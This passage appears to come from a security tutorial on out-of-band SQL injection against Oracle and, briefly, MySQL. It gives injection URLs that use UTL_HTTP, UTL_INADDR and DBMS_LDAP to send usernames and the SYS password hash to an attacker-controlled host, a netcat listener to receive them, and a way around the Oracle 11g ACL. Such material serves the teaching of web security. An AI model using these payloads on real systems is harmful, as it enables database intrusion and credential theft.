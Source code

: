 #### Oracle
The `UTL_HTTP` package can be used to make arbitrary HTTP requests to other hosts. An attacker who has compromised a database on a highly restricted internal corporate network may be able to leverage a corporate proxy to initiate outbound connects to the Internet.

In the following example, `UTL_HTTP` is used to transmit the results of an injected query to a server controlled by the attacker:

```
/employees.asp?EmpNo=7521'||UTL_HTTP.request('mdattacker.net:80/'||(SELECT%20username%20FROM%20all_users%20WHERE%20ROWNUM%3d1))--
```

This URL causes `UTL_HTTP` to make a `GET` request for a URL containing the first username in the table `all_users`. The attacker can simply set up a netcat listener on `mdattacker.net` to receive the result:

```
C:\>nc -nLp 80
GET /SYS HTTP/1.1
Host: mdattacker.net
Connection: close
```

The `UTL_INADDR` package is designed to be used to resolve hostnames to IP addresses. It can be used to generate arbitrary DNS queries to a server controlled by the attacker. In many situations, this is more likely to succeed  than the `UTL_HTTP` attack, because DNS traffic is often allowed out through corporate firewalls even when HTTP traffic is restricted. The attacker can leverage this package to perform a lookup on a hostname of his choice, effectively retrieving arbitrary data by prepending it as a subdomain to a domain name he controls. For example:

```
/employees.asp?EmpNo=7521'||UTL_INADDR.GET_HOST_NAME((SELECT%20PASSWORD20FROM%20DBA_USERS%20WHERE%20NAME='SYS')||'.mdattacker.net')
```

This results in a DNS query to the `mdattacker.net` name server containing the `SYS` user's password hash:
`DCB7481A5BC5390F2.mdattacker.net`

The `UTL-SMTP` package can be used to send e-mails. This facility can be used to retrieve large volums of data captured from the database by sending this in outbound e-mails.

The `UTL_TCP` package can be used to open arbitrary TCP sockets to send and receive network data.

**NOTE: On Oracle 11g, an additional ACL protects many of the resources just desribed from execution by any arbitrary database user. An easy way around this is to dip into the new functionality provided in Oracle 11g and use this code:**

```
SYS.DBMS_LDAP.INIT((SELECT PASSWORD FROM SYS.USER$ WHERE NAME='SYS')||'.mdsec.net',80)
```

#### My-SQL
The `SELECT... INTO OUTFILE` command can be used to direct the output from an arbitrary query into a file. The specified filename may contain a UNC path, enabling you to direct the output to a file on your own computer. For example:
